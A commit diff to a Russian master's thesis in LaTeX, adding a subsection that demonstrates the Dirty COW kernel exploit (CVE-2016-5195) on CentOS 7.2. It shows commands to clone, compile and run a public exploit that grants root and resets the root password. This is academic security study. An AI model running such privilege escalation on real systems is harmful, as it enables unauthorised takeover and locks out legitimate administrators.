

Before and after one commit to Amet13/master-thesis, a LaTeX document (main.tex, which reads inc/6-experiment.tex): two parts of pages 75 and 76 of 88, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with XeLaTeX; a missing font is replaced by an installed copy or a similar font.

Commit message:
Добавлен подраздел эксплуатации Dirty COW

```diff
--- a/inc/6-experiment.tex
+++ b/inc/6-experiment.tex
@@ -290,27 +290,40 @@
 
 \subsection{Эксплуатация уязвимостии ядра Linux CVE-2016-5195 <<Dirty COW>>}
 
+Наиболее опасной уязвимостью 2016~г. является CVE-2016-5195 с кодовым именем <<Dirty COW>>.
+Такая степень опасности обусловлена тем, что ей подвержены практически все ядра Linux начиная с версии 2.6.22, а также легкостью применения эксплоитов.
+
+В данном разделе применяется эксплоит \cite{dcowexp}, позволяющий получить права суперпользоваться из-под локального пользователя.
+
+Для эксплуатации используется дистрибутив CentOS:
 \begin{lstlisting}
-ETO CHISTIJ ISO CENTOS 7.2
+# cat /etc/redhat-release
+CentOS Linux release 7.2.1511 (Core)
+# uname -r
+3.10.0-327.el7.x86_64
+\end{lstlisting}
 
-[root@master ~]# cat /etc/redhat-release
-CentOS Linux release 7.2.1511 (Core)
-[root@master ~]# uname -r
-3.10.0-327.el7.x86_64
-[root@master ~]# su dcow
-[dcow@master ~]$ id
-uid=1000(dcow) gid=1000(dcow) groups=1000(dcow) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
-[dcow@master ~]$ git clone https://github.com/gbonacini/CVE-2016-5195.git
-[dcow@master ~]$ cd CVE-2016-5195/
-[dcow@master CVE-2016-5195]$ make
+Необходимо повысить привилегии локального пользователя dcow до суперпользователя root, для этого необходимо скачать эксплоит и установить инструменты для компиляции (gcc/g++).
+После установки всех необходимых настроек компилируем код эксплоита:
+\begin{lstlisting}
+$ id
+uid=1000(dcow) gid=1000(dcow) groups=1000(dcow)
+$ git clone https://github.com/gbonacini/CVE-2016-5195
+$ cd CVE-2016-5195/
+$ make
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
-[dcow@master CVE-2016-5195]$ ./dcow
+\end{lstlisting}
+
+После компиляции исходного кода эксплоита, в текущем каталоге появляется бинарный файл, запуск которого в автоматическом режиме позволяет получить права доступа суперпользователя и сменить его пароль на <<dirtyCowFun>>:
+\begin{lstlisting}
+$ ./dcow
 Running ...
 Received su prompt (Password: )
 Root password is:   dirtyCowFun
 Enjoy! :-)
-[dcow@master CVE-2016-5195]$ su root
+$ su root
 Password: dirtyCowFun
-[root@master ~]# id
-uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
+# id
+uid=0(root) gid=0(root) groups=0(root)
+\end{lstlisting}
 
@@ -317,2 +332 @@
 
-[root@master ~]# rpm -i http://patches.kernelcare.com/kernelcare-latest.el6.x86_64.rpm
@@ -326,0 +340 @@
+\begin{lstlisting}
@@ -336,2 +354 @@
 
-[root@master ~]# uname -r
```
Also changed, not shown: inc/0-bibliography.tex (+7 -0 lines), inc/3-sysanalyz.tex (+2 -1 lines), master-thesis.pdf, inc/6-experiment.tex (49 more changed lines).
